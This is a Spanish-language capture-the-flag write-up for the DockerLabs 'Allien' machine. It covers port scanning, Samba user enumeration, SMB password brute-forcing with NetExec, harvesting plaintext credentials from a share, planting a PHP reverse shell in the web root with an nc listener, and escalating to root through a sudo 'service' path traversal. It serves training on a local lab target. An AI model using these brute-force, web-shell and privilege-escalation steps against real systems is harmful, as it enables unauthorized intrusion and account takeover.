

**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `SMB` `Enum4linux` `NetExec` `Brute Force` `FileUpload` `Sudoers` `Service`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip allien.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh allien.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p22,80,139,445 --min-rate 5000 172.17.0.2
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-04 19:52 CET
Nmap scan report for 172.17.0.2
Host is up (0.000027s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:a1:09:2d:be:05:58:1b:01:20:d7:d0:d8:0d:7b:a6 (ECDSA)
|_  256 cd:98:0b:8a:0b:f9:f5:43:e4:44:5d:33:2f:08:2e:ce (ED25519)
80/tcp  open  http        Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Login
|_http-server-header: Apache/2.4.58 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2025-11-04T18:52:20
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: SAMBASERVER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.80 seconds
```

Tenemos abiertos los puertos `22`, `80`, `139` y `445`

Empezaremos enumerando el puerto `445` (Samba).

## SAMBA

Utilizamos la herramienta `enum4linux` para enumerar todo el servicio `Samba`.

```bash
enum4linux -a 172.17.0.2
```

Info:

```
[+] Attempting to map shares on 172.17.0.2

//172.17.0.2/myshare	Mapping: OK Listing: OK Writing: N/A
//172.17.0.2/backup24	Mapping: DENIED Listing: N/A Writing: N/A
//172.17.0.2/home	Mapping: DENIED Listing: N/A Writing: N/A

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\ubuntu (Local User)
S-1-22-1-1001 Unix User\usuario1 (Local User)
S-1-22-1-1002 Unix User\usuario2 (Local User)
S-1-22-1-1003 Unix User\usuario3 (Local User)
S-1-22-1-1004 Unix User\satriani7 (Local User)
S-1-22-1-1005 Unix User\administrador (Local User)
```

Encontramos la lista de `shares` y una lista de `usuarios` locales.

Volcamos los usuarios en un archivo `users.txt`.

Vamos a realizar un ataque de `fuerza bruta` con `NetExec` para intentar obtener alguna contraseña para los usuarios encontrados.

```bash
netexec smb 172.17.0.2 -u users.txt -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
```

Info:

```
SMB         172.17.0.2      445    SAMBASERVER      [*] Unix - Samba (name:SAMBASERVER) (domain:SAMBASERVER) (signing:False) (SMBv1:False)

SMB         172.17.0.2      445    SAMBASERVER      [-] SAMBASERVER\satriani7:123456 STATUS_LOGON_FAILURE 
SMB         172.17.0.2      445    SAMBASERVER      [-] SAMBASERVER\usuario1:123456 STATUS_LOGON_FAILURE 
SMB         172.17.0.2      445    SAMBASERVER      [-] SAMBASERVER\usuario2:123456 STATUS_LOGON_FAILURE 
SMB         172.17.0.2      445    SAMBASERVER      [-] SAMBASERVER\usuario3:123456 STATUS_LOGON_FAILURE 
...........................................................................................................
SMB         172.17.0.2      445    SAMBASERVER      [-] SAMBASERVER\usuario3:monkey1 STATUS_LOGON_FAILURE 
SMB         172.17.0.2      445    SAMBASERVER      [-] SAMBASERVER\administrador:monkey1 STATUS_LOGON_FAILURE 
SMB         172.17.0.2      445    SAMBASERVER      [+] SAMBASERVER\satriani7:50cent
```

Encontramos credenciales para el usuario `satriani7` : `50cent`.

Utilizamos dichas credenciales para acceder al share `/backup24`.

```bash
smbclient //172.17.0.2/backup24 -U satriani7 -p
```



Encontramos en el directorio `/Documents/Personal/` dos archivos `.txt` interesantes. Los transferimos a nuestra máquina atacante para leerlos.

```bash
get credentials.txt
get notes.txt
exit
```

El archivo `credentials.txt` nos muestra lo siguiente:

```
5. Usuario: tjohnson
   - Contraseña: PassTjohnson2024!

6. Usuario: emiller
   - Contraseña: PassEmiller2024!
   
7. Usuario: administrador
    - Contraseña: Adm1nP4ss2024   

8. Usuario: dwhite
   - Contraseña: PassDwhite2024!

9. Usuario: nlewis
   - Contraseña: PassNlewis2024!
```

Encontramos la contraseña del usuario `administrador` : `Adm1nP4ss2024`, un usuario que habíamos encontrado también enumerando el protocolo `Samba`.

Intentamos acceder por el puerto `22` (SSH) con las credenciales del usuario `administrador`.

```bash
ssh administrador@172.17.0.2
```

Accedemos con éxito.

Después de una enumeración exhaustiva, no encontramos vías de escalada de privilegios a `root`. Además, las credenciales `satriani7` : `50cent` no nos sirven para autenticarnos por `SSH`.

Sin embargo, descubrimos que tenemos permisos de escritura sobre el directorio `/var/www/html/`, donde se encuentran los archivos visibles en el puerto `80`, por lo que podemos intentar subir un archivo que nos devuelva una `reverse shell` una vez accedamos a él desde el navegador.

```bash
cd /var/www/html
nano shell.php
```

Utilizamos la `php-reverse-shell` de Pentestmonkey en GitHub.

Ponemos un `listener` en nuestra máquina atacante, pendiente de recibir una conexión.

```bash
sudo nc -nlvp 4444
```

Ahora sí, accedemos a `http://172.17.0.2/shell.php`.

Info:

```
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 41648
Linux 3007a838b450 6.16.8+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.16.8-1kali1 (2025-09-24) x86_64 x86_64 x86_64 GNU/Linux
 16:59:36 up 21 min,  0 user,  load average: 2.41, 1.03, 0.46
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

Recibimos una `reverse shell` como usuario `www-data`.

## TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```

`ctrl Z`

```bash
stty raw -echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export BASH=bash
```

## ESCALADA DE PRIVILEGIOS

Comprobamos permisos `sudo` y `SUID`.

```bash
sudo -l
```

Info:

```
Matching Defaults entries for www-data on 3007a838b450:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 3007a838b450:
    (ALL) NOPASSWD: /usr/sbin/service
```

Vemos que podemos ejecutar el binario `service` con privilegios de `root`. Lo aprovechamos para escalar privilegios de la siguiente manera:

```bash
sudo /usr/sbin/service ../../bin/bash
```

Info:

```
root@3007a838b450:/# whoami
root
root@3007a838b450:/#
```

Ya somos root!
